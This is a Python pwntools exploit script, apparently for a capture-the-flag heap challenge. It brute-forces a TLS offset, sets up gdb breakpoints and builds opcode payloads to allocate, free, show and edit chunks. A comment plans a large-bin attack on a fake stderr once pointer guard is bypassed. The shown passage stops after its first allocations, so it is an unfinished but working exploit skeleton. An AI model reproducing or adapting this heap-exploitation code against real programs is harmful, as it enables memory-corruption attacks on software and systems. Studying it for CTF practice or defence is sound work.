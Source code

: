```python
#!/usr/bin/env python2
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug', terminal = ['tmux', 'new-window'])
def debug(cmd=''):
	cmd += "b *$rebase(0x1289)\nb *$rebase(0x1536)\nb *$rebase(0x15a4)\n *$rebase(0x13dd)\n"
	gdb.attach(p, cmd)
	pause()

for x in range(0x10):
    for y in range(0x10):
		try:	
			offset = 0x300740
			tls_offset = offset
			tls_offset += x << 16
			tls_offset += y << 12
			log.success("try offset:\t" + hex(tls_offset))

			host = ""
			port = 0
			p = process("./pwn")
			#pt = remote(host, port)
			libc = ELF('./libc.so.6')

			pl = ""

			def add(index, size):
			#size(0x40f,0x500]
				global pl
				pl += p8(1)
				pl += p8(index)
				pl += p16(size)

			def delet(index):
				global pl
				pl += p8(2)
				pl += p8(index)

			def	show(index):
				global pl
				pl += p8(3)
				pl += p8(index)

			def edit(index, size, str):
				global pl
				pl += p8(4)
				pl += p8(index)
				pl += p16(size)
				pl += str

			def sendit():
				global pl
				pl += p8(5)
				p.sendlineafter("opcode\n", pl)
				pl = ""

			def ROL(content, n):
				num = bin(content)[2:].rjust(64,'0')
				return int(num[n:]+num[:n],2)

			add(0,0x420)
			add(1,0x440)
			add(2,0x440)#largebins(9)->fakestderr(after attack pointerguard)
```